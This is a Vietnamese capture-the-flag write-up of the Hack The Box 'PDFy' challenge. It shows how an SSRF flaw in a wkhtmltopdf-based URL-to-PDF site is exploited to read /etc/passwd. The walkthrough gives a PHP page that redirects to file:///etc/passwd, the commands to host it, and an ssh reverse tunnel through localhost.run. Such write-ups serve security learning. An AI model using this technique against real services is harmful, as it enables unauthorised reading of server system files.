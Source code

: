 ![alt text](image.png)
Chào mừng bạn đến với PDFy, thử thách thú vị nơi bạn biến các trang web yêu thích của mình thành tài liệu PDF di động! Đây là cơ hội để bạn nắm bắt, chia sẻ và bảo tồn những gì tốt nhất của Internet một cách chính xác và sáng tạo. Hãy tham gia cùng chúng tôi và thay đổi cách chúng tôi lưu giữ và trân trọng nội dung web! LƯU Ý: Rò rỉ /etc/passwd để lấy cờ!
## Thu Thập
Truy cập vào trang web
![alt text](image-1.png)
Thử chức năng của website với url là https://google.com
![alt text](image-2.png)

Ta thử gửi yêu cầu url không thể chuyển đổi html sang pdf được thì phản hồi trả về :
*Với yêu cầu :*
```bash
{"url":"http://0.0.0.0/application/static/pdfs/"}
```
*Phản hồi*
```bash
{
  "level": "error",
  "message": "There was an error: Error generating PDF: Command '['wkhtmltopdf', '--margin-top', '0', '--margin-right', '0', '--margin-bottom', '0', '--margin-left', '0', 'http://0.0.0.0/application/static/pdfs/', 'application/static/pdfs/26e9319f32c669c182cc6a0dbdf1.pdf']' returned non-zero exit status 1."
}
```
Wkhtmltopdf  công cụ dòng lệnh mã nguồn mở (LGPLv3) để hiển thị HTML thành PDF và các định dạng hình ảnh khác nhau bằng cách sử dụng công cụ kết xuất Qt WebKit. 
Chức năng của website là chuyển đổi trang html sang pdf
## Phân tích lỗ hổng
Wkhtmltopdf có khả năng là lỗ hổng SSRF . 
Server side request forgery cho phép kẻ tấn công thực hiện các yêu cầu http từ chính máy chủ , có khả năng truy cập vào các tài nguyên nội bộ mà nếu không thì không thể truy cập được từ bên ngoài .
## Khai thác
Để khai thác lỗ hổng SSRF chúng ta cần tạo một trang web đánh lừa máy chủ tải đang rò rỉ tệp /etc/passwd . Bằng cách nhúng 1 tập lênh PHP chuyển hướng đến tệp hệ thống cục bộ của máy chủ 
1.	Tạo tập lệnh php
Tập lệnh php chuyển hướng đến file:///etc/passwd trong máy chủ cục bộ 
```bash
<!DOCTYPE html>
<html>
<body>
        <h1> Toi la Khanh</h1>
<?php
header('location:file:///etc/passwd');
?>
</body>
</html>
```

2.	Lưu trữ tập lệnh PHP
Lưu trữ tập lệnh php trên máy chủ cục bộ bằng máy chủ php 
```bash
php -S 0.0.0.0:8000
```
![alt text](image-3.png)

3.	Máy chủ cục bộ ra bên ngoài Internet 
Để máy chủ php cục bộ truy cập được ra bên ngoài sử dụng  localhost.run tạo đường hầm để máy chủ cục bộ có thể kết nối với internet ra ngoài .
```bash
ssh -R 80:localhost:8000 nokey@localhost.run
```
![alt text](image-4.png)

![alt text](image-5.png)
* Lấy được url internet :https://0087ce8bca4873.lhr.life

Nhập Url : https://0087ce8bca4873.lhr.life/Exploit.php  vào trang web ta đọc được file /etc/passwd của máy chủ .
Ta tìm được flag 
![alt text](image-6.png)
![alt text](image-7.png)
**https://www.hackthebox.com/achievement/challenge/2106021/637**